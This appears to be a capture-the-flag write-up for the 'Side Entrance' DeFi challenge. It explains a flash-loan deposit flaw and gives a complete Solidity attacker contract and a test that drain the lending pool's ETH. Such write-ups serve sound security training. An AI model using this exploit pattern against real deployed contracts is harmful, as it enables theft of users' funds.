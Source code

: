
## Challenge 4: Side Entrance

### Vulnerability
The `SideEntranceLenderPool` counts deposited ETH towards the balance check, allowing reentrancy through `deposit()`.

### Exploit Code
```solidity
// Attack contract
contract SideEntranceAttacker {
    SideEntranceLenderPool pool;
    address payable recovery;
    
    constructor(SideEntranceLenderPool _pool, address payable _recovery) {
        pool = _pool;
        recovery = _recovery;
    }
    
    function attack() external {
        // Flash loan the entire pool balance
        pool.flashLoan(address(pool).balance);
        
        // Withdraw our "deposited" ETH
        pool.withdraw();
        
        // Send to recovery
        recovery.transfer(address(this).balance);
    }
    
    // Flash loan callback - deposit the borrowed ETH
    function execute() external payable {
        pool.deposit{value: msg.value}();
    }
    
    receive() external payable {}
}

// In SideEntrance.t.sol
function test_sideEntrance() public checkSolvedByPlayer {
    SideEntranceAttacker attacker = new SideEntranceAttacker(pool, payable(recovery));
    attacker.attack();
}
```

### Why it works
1. Flash loan gives us the entire pool balance
2. In the callback, we deposit the borrowed ETH back
3. This satisfies the balance check: `address(this).balance >= balanceBefore`
4. Our deposit creates a withdrawal credit
5. After flash loan, we withdraw our "deposit" and transfer to recovery
